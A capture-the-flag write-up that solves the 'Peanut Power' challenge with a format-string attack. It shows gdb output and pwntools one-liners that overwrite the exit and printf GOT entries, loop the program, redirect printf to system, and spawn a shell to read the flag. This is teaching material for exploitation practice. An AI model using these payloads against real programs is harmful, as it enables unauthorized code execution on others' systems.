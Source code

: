 ```yaml
---
title:  "Writeup: Peanut Power"
date:   2019-04-22 14:00:00
categories: writeup
author: Tim Winters
layout: post
---
```


```c
void peanut(void)

{
  char buffer [512];
  
  fgets(buffer,0x200,stdin);
  printf(buffer);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This is a format string attack.

## Step 1 - Overwrite exit
Whenever I'm solving a problem, the first thing I look for is where the user input is used, and how that can be exploited. In this case, the input is printed out via printf. This means two things, 1) we have a format string attack, and 2) we can control the first argument to any function if we overwrite printf with that function. 

My first instinct is to find a way of overwriting prtinf with `system`, since that will let us call `system("/bin/sh");`. The issue with this however, is printf is only called once, so if we overwrite it, it doesn't matter. 

To get around this, we need to overwrite `exit` with `peanut`, since that will let us continuously call printf. 

### Address of exit
Looking at the ~~Game of Thrones~~ Global Offset Table, `exit`'s entry is at `0x601038`. If we look at the data at this address via gdb

```
gdb-peda$ x/4xb 0x601038
0x601038:	0x56	0x05	0x40	0x00
```

`exit` points to  `0x400556`
### Address of peanut
```
gdb-peda$ p peanut
$1 = {void ()} 0x400666 <peanut>
```

We need to overwrite the first two bytes of exit with the first two bytes of peanut i.e `0x0556 -> 0x0666`

0x0666 = 1638

```
$ python -c "print '%p'*8 + 'a'*8" | ./peanutpower
0x6020290x7ffff7dd37900x61702570257025700x6020290xd0x70257025702570250x70257025702570250x6161616161616161aaaaaaaa
```
Looks like it's the 8th entry. 

Our exploit now looks like

```
$ (python -c "from pwn import *; print '%1638u%8\$hn'.ljust(16) + p64(0x601038)"; cat) | ./peanutpower
```

If you run this, you'll be able to type anything in, and printf will spit it back out. We have successfully looped!

## Step 2 - Overwrite printf

This one is a little trickier. If we look at the entry for printf, we see that it is `0x601020`.
Examining these bytes in GDB we get 

### Address of printf

```
gdb-peda$ x/8xb 0x601020
0x601020:	0x00	0x28	0xa6	0xf7	0xff	0x7f	0x00	0x00
```

Note: If you examine this address right after you start gdb, it will point to the PLT entry, NOT the addres in libc. Examine the address after printf has been called once. 

### Address of system

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
```

We need to overwrite the last *4* bytes of print with the last 4 bytes of system (0xf7a62800 -> 0xf7a52390)

Start by converting these bytes to decimal

|Hex| Decimal|
|---|--------|
|0x2390|9104|
|0xf7a5| 63397|

Since 0x2390 < 0xf7a5, we want to write this value first. This is because %n is cumulative, and we wouldn't be able to write the lower value if we did it second.

Let's figure out our n offsets.

```
	(python -c "from pwn import *; print '%1638u%8\$hn'.ljust(16) + p64(0x601038)"; python -c "from pwn import *; print '%p'*8 + '%p'*8 + p64(0x601020) + p64(0x601022)"; cat) | ./peanutpower
0x6020410x7ffff7dd37900xa000000000060100x6020410x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x6010200x6010220x7ffff7ff000a0x7ffff7a0d000(nil)0x7ffff7dd1b200x1000
```
Notice how I am using `'%p'*8` to give me exactly 16 bytes. This is important becuase we need the same amount of characters in our final string
Looks like the addresses we put on the stack are at 10 and 11. 


```
python -c "from pwn import *; print '%9104u%10$hn'.ljust(16) + '%54289u%11$hn'.ljust(16) + p64(0x601020) + p64(0x601022)"
```

Look at the second printf string. It doesn't have the value we put calculated earlier. Instead, it has 63397 - 9104 - 4. It's easy to see where 9104 comes from, but what about that 4? Well, the ljust(16) puts 4 extra spaces after the first format string, and they count toward the total that the next %n writes, so we need to subtract 4 from our expected value. 

```
(python -c "from pwn import *; print '%1638u%8\$hn'.ljust(16) + p64(0x601038)"; python -c "from pwn import *; print '%9104u%10\$hn'.ljust(16) + '%54289u%11\$hn'.ljust(16) + p64(0x601020) + p64(0x601022)";echo "/bin/sh"; echo "cat flag.txt") | ./peanutpower
```


 



